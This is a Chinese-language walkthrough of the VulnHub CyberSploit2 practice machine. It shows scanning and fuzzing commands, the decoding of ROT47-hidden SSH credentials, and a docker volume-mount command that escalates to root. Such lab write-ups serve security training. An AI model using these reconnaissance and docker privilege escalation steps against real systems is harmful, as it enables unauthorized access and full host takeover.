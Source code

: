 # vulnhub系列——CyberSploit2

# 一、信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   ![1.png](img/vulnhub/CyberSploit2/Image1.png)

2. 端口扫描

   ``` shell
   nmap -Pn -sV -sC 192.168.50.58
   ```

   ![2.png](img/vulnhub/CyberSploit2/Image2.png)

3. 发现开放80端口，有web服务，访问一下

   ![3.png](img/vulnhub/CyberSploit2/Image3.png)

4. 发现第四行的用户名和密码有点奇怪，先继续扫描一下目录

   ``` shell
   dirsearch -u http://192.168.50.58 -e *
   ```

   ![4.png](img/vulnhub/CyberSploit2/Image4.png)

5. 没有扫出什么有用的东西，识别一下web指纹

   ``` shell
   whatweb 192.168.50.58
   ```

   ![5.png](img/vulnhub/CyberSploit2/Image5.png)

6. fuzz一下，看有没有隐藏的目录和文件

   ``` shell
   wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.50.58/\~FUZZ
   wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 403,404 http://192.168.50.58/.FUZZ
   ```

7. fuzz无果，没有隐藏目录和文件，F12查看源码

   ![6.png](img/vulnhub/CyberSploit2/Image6.png)

8. 发现可疑的东西，查了下R0T47是一种编码方式，联想到上面发现的web页面第四行的奇怪的用户名和密码，尝试解码，解码网站：https://www.jisuan.mobi/puu3uummu313myXP.html

   ``` shell
   D92:=6?5C2 ——> shailendra
   
   4J36CDA=@:E` ——> cybersploit1
   ```

   ![7.png](img/vulnhub/CyberSploit2/Image7.png)

   ![8.png](img/vulnhub/CyberSploit2/Image8.png)

# 二、getshell

1. 由于没有发现web后台登录地址，那么解码出来的用户名和密码可能就是ssh的用户名和密码了，尝试ssh连接

   ![9.png](img/vulnhub/CyberSploit2/Image9.png)

2. 连接ssh成功，查看一下权限

   ![10.png](img/vulnhub/CyberSploit2/Image10.png)

3. 当前用户shailendra权限太低，需要提权，当前用户目录下有一个hint.txt文件，cat一下，内容为docker，提示用docker提权

   ``` shell
   docker pull alpine
   docker run -v /:/mnt -it alpine
   ```

4. 提权成功

   ![11.png](img/vulnhub/CyberSploit2/Image11.png)